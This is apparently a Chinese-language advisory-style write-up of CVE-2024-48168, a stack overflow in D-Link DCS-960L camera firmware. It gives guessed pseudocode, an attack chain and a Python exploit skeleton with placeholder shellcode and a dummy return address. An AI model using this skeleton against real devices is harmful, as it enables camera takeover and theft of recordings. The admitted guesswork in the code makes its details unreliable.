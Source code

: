 ### CVE-2024-48168 分析与详细描述

#### 漏洞简介
CVE-2024-48168 是 D-Link DCS-960L 固件版本 1.09 中发现的一个 **栈溢出漏洞**，该漏洞存在于 HNAP 服务的 `sub_402280` 函数中。由于输入数据未经过适当的边界检查，攻击者可以通过精心构造的网络数据包触发溢出，从而执行任意代码，控制受害设备&#8203;:contentReference[oaicite:0]{index=0}&#8203;:contentReference[oaicite:1]{index=1}。

---

### 成因分析

#### 问题函数与代码片段
漏洞的根本原因是函数 `sub_402280` 在处理用户输入时没有正确限制输入数据的大小。以下为可能的伪代码描述：
```c
void sub_402280(char *input) {
    char buffer[256]; // 定义了一个 256 字节的栈缓冲区
    strcpy(buffer, input); // 未进行大小检查的直接复制
}
```

问题函数：strcpy 的使用未验证输入大小。
错误描述：当传入的 input 超过 256 字节时，会导致栈上的相邻内存区域被覆盖，包括函数返回地址或其他重要数据。
攻击链条详解
攻击步骤

信息收集：攻击者扫描网络，发现暴露的 D-Link DCS-960L 设备及其开放的 HNAP 服务端口。
构造攻击载荷：
构造一个超过 256 字节的输入数据，其中嵌入了攻击者的 shellcode。
在数据末尾覆盖函数返回地址，使其指向恶意 shellcode 的起始地址。
发送攻击载荷：
通过 HTTP 请求或其他网络接口，将恶意数据发送到目标设备的 HNAP 服务。
触发漏洞：
HNAP 服务调用 sub_402280，执行 strcpy 操作，导致栈溢出。
函数返回时，控制流被重定向到攻击者的 shellcode。
获得控制：
攻击者可在设备上执行任意代码，实现数据窃取、设备控制或网络扩展攻击。
攻击影响

控制设备：完全控制 D-Link 摄像头设备。
网络扩展：通过控制摄像头充当跳板攻击其他设备。
隐私泄露：访问和截取摄像头录制的视频和音频。
EXP 示例

```python
import socket

def exploit(target_ip, target_port):
    # 构造超长溢出输入数据，含 NOP 滑块和 shellcode
    overflow_payload = b"\x90" * 200  # NOP 滑块
    overflow_payload += b"<shellcode>"  # 替换为实际的 shellcode
    overflow_payload += b"A" * (256 - len(overflow_payload))  # 填充
    overflow_payload += b"\xef\xbe\xad\xde"  # 覆盖返回地址

    # 创建网络连接并发送 payload
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target_ip, target_port))
    s.send(overflow_payload)
    s.close()
```
